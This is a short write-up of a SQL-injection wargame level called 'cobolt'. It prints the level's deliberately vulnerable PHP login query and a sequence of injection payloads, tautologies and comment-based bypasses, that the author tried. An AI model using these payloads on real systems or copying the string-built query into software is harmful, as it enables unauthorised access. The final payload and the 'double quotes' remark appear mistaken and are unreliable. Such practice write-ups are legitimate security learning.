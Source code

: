 # cobolt

Here is the code

```php
 <?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

At first, I tried using the same answer as [gremlin](answers/1-gremlin.md).

```
id=' or '1'='1&pw=' or '1'='1
```

But it didn't work. I suspect it's because there is a hashing function with the password. I know that I can disable the password checking by commenting it out.

```
id=' or '1'='1' --
```

But it also didn't work. I kinda got stuck and ended up asking ChatGPT. Turns out, you need an extra space after the double quotes for it to be considered a comment.

```
id=' or '1'='1' -- -
```

After that, I got `Hello rubiya. You are not admin :(`. I complete it after adjusting the payload.

```
id=' -- -
```
